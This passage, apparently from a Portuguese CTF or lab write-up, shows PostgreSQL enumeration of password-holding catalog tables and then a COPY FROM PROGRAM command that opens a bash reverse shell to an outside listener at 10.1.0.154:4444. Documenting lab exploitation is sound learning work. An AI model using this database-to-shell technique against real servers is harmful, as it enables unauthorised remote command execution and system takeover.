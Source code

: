 ```bash
 pg_catalog         | pg_hba_file_rules               | user_name
 pg_catalog         | pg_roles                        | rolpassword
 information_schema | user_defined_types              | user_defined_type_category
 pg_catalog         | pg_authid                       | rolpassword
 information_schema | routines                        | is_user_defined_cast
 information_schema | user_defined_types              | user_defined_type_schema
 information_schema | tables                          | user_defined_type_catalog
 information_schema | tables                          | user_defined_type_schema
 information_schema | tables                          | user_defined_type_name
 pg_catalog         | pg_shadow                       | passwd
 information_schema | user_defined_types              | user_defined_type_name
 information_schema | user_defined_types              | user_defined_type_catalog
(23 rows)

tshirts=# SELECT proname
FROM pg_proc
WHERE pronamespace NOT IN (
    SELECT oid FROM pg_namespace
    WHERE nspname LIKE 'pg_%' OR nspname = 'information_schema'
);
 proname 
---------
(0 rows)

tshirts=# \ds
Did not find any relations.

tshirts=#
```

Eu não vi nada de nada aí nesse banco... aí, meu amigo, meus conhecimentos estavam totalmente limitados com zero! possibilidades de ideias do que fazer... Foi então que, depois de muito tempo, eu pensei numa possibilidade. Eu lembrei que podíamos escalar um shell a partir do banco... e então fui pra internet pesquisar como escalar do banco de dados para um shell, encontrar alguma forma de conseguir isso... Pois num é que eu consegui!

Com a senha em mãos eu acessei o banco, fiz o que tinha que fazer, consegui o shell e parti para o abraço! 🙅🏾‍♂️

{{< bs/toggle name=shell style=pills fill=false alignment=left >}}
{{< bs/toggle-item "Acesso ao banco" >}}
{{< highlight bash >}}
┌──(kali㉿kali)-[~]
└─$ psql -h 10.0.0.213 -U postgres -d tshirts
Password for user postgres: 
psql (17.5 (Debian 17.5-1), server 14.8 (Debian 14.8-1.pgdg120+1))
Type "help" for help.

tshirts=# CREATE TABLE shell_out(cmd_output text);
CREATE TABLE
tshirts=# COPY shell_out FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/10.1.0.154/4444 0>&1"';

{{< /highlight >}}
{{< /bs/toggle-item >}}
